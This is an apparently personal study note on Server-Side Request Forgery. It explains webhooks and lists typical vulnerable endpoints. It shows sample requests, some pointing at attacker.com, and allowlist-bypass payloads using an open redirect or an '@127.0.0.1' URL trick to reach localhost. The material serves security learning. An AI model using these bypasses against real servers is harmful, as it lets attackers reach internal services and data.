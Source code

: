# explanation 
**Server-Side Request Forgery (SSRF)** is a vulnerability where an attacker tricks a server into making unintended or malicious requests to internal or external resources on behalf of the attacker.

# Webhooks 
are custom HTTP callback endpoints used as a notification system for certain application events. When an event such as new user sign-up or application error occurs, the originating site will make an HTTP request to the webhook URL. These HTTP requests help the company collect information about the website’s performance and visitors. It also helps organizations keep data in sync across multiple web applications.[example of exploiting webhook](https://hackerone.com/reports/2301565)  [another report](https://hackerone.com/reports/508459)   the explanation in the [[scenarios]]

# Potential SSRF Endpoints
- Add a new webhook:
	 `POST /webhook Host: public.example.com
	 `(POST request body) url=https://www.attacker.`

- File upload via URL:
	 `POST /upload_profile_from_url Host: public.example.com
	 `(POST request body) user_id=1234&url=https://www.attacker.com/profile.jpeg

- Proxy service:
	 `https://public.example.com/proxy?url=https://google.com





# Bypassing SSRF FILTERs 
just check [payload of all things ](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
## Bypass Allowlists 

### Allowlists based on the website we are talking  
are generally the hardest to bypass, because they are, by default, stricter than blocklists. But getting around them is still possible if you can find an<span style="color:rgb(146, 208, 80)"> open redirect vulnerability </span>within the allowlisted domains. If you find one, you can request an allowlisted URL that redirects to an internal URL. For example, even if the site allows only profile pictures uploaded from one of its subdomains, you can induce an SSRF through an open redirect.
In the following request, we utilize an open redirect on pics.example.com to redirect the request to 127.0.0.1, the IP address for the localhost. This way, even though the url parameter passes the allowlist, it still redirects to a restricted internal address:

`POST /upload_profile_from_url Host: public.example.com`
`(POST request body) user_id=1234&url=https://pics.example.com/123?redirect=127.0.0.1`
### allow list based on regex  
`POST /upload_profile_from_url Host: public.example.com
(POST request body) user_id=1234&url=<span style="color:rgb(146, 208, 80)">https://pics.example.com@127.0.0.1</span>`
you can use <span style="color:rgb(146, 208, 80)">@</span> to tell the server what's after the @ <span style="color:rgb(146, 208, 80)">is the domain I'm talking </span> 
